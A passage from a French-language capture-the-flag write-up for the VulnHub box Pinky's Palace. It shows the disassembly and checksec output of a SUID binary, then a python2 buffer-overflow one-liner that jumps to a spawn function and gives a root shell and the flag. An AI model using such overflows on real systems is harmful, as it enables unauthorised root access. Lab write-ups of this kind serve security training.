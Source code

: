 ```nasm
   0x00005555555547f5 <+37>:    callq  0x555555554670 <setegid@plt>
   0x00005555555547fa <+42>:    mov    $0x0,%edx
   0x00005555555547ff <+47>:    mov    $0x0,%esi
   0x0000555555554804 <+52>:    lea    0xd9(%rip),%rdi        # 0x5555555548e4
   0x000055555555480b <+59>:    callq  0x555555554660 <execve@plt>
   0x0000555555554810 <+64>:    nop
   0x0000555555554811 <+65>:    leaveq 
   0x0000555555554812 <+66>:    retq   
End of assembler dump.
```

Le binaire n'a pas de protection contre les buffer overflows. NX n'est même pas activé :

```console
$ checksec --file adminhelper
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   adminhelper
```

J'ai déterminé qu'il fallait 72 octets avant d'écraser l'adresse de retour. Ensuite on va simplement placer l'adresse de `spawn` pour détourner l'exécution normale du binaire :

```console
pinky@pinkys-palace:~$ ./adminhelper `python2 -c 'print("A" * 72 + "\xd0\x47\x55\x55\x55\x55\x00\x00")'`
-bash: warning: command substitution: ignored null byte in input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�GUUUU
# id
uid=1000(pinky) gid=1000(pinky) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),1000(pinky)
# cd /root
# ls
root.txt
# cat root.txt
===========[!!!CONGRATS!!!]===========

[+] You r00ted Pinky's Palace Intermediate!
[+] I hope you enjoyed this box!
[+] Cheers to VulnHub!
[+] Twitter: @Pink_P4nther

Flag: 99975cfc5e2eb4c199d38d4a2b2c03ce
```


